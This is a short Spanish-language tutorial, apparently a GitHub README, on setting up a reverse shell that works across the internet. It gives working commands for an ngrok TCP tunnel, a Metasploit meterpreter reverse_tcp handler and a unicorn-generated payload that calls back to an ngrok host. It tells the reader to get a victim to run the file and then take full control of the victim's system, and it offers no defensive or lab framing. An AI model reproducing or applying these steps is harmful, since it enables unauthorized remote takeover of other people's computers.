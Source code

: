 una shell inversa en un metodo en el cual una victima ejecuta una archivo en el cual hay un codigo malicioso este se conecta a el atacante abriendo una shell en la cual podemos tener control total del sistema manejarlo anuestro antojo la shell que haremos hoy sera una
shell inversa y fuera de lan una shell inversa significa que nosotros no nos conectamos a la victima la victima se conecta a nosotros y fuera de lan signinfica que va a ser fuera de nuestra red socila osea que la victimapuede estar desde cualquier parte del mundo y nosotros vamos a seguir teniendo el control del sistema esto tambien se aplica en telefonos android y ios asi que empesemos con este tutorial de shell inversa 

	1. descargamos ngrok
	2. hacemos un tunel tcp seguro con ngrok ./ngrok tcp 445 "el puerto puede cambiar"
	3. iniciamos metasploit con el conmando msfconsole
		msf> use exploit/multi/handler
		>set PAYLOAD windows/meterpreter/reverse_tcp
		>set LHOST 127.0.0.1
		>set LPORT 445
		>exploit -j	
	
	5. tambien lo podemos hacer con unicorn 
		>git clone https://github.com/trustedsec/unicorn
		>cd unicorn
		>python unicorn.py windows/meterpreter/reverse_tcp 0.tcp.ngrok.io 10100 "esto ultimo lo cambiamos por la dreccion que ngrok nos haya asignado"
		>el archivo que nos da lo ponemos en la maquina victima y hacemos que lo ejecute
		>una ves hecho nos metemos a la terminal con metasploit
	
	6. en la terminal de metasploit le ponemos sessions 
		>sessions -i 1 "estoo porque nuestra sesion es la numero 1"
		>listo ya podemos ejecutar comandos de todo tipo

	"CON ESTO FINALISAMOS ESTE TUTORIAL"
